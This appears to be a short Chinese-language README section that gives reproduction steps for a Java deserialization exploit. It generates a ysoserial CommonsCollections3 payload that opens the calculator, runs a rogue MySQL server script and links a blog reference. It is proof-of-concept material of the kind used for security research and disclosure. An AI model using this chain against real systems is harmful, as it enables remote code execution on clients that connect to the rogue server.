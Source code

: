 

## 复现



1. java -jar ysoserial.jar CommonsCollections3 "open -a calculator" > payload.ser
1. python rogue-mysql-server.py





## 参考

https://landgrey.me/blog/11/


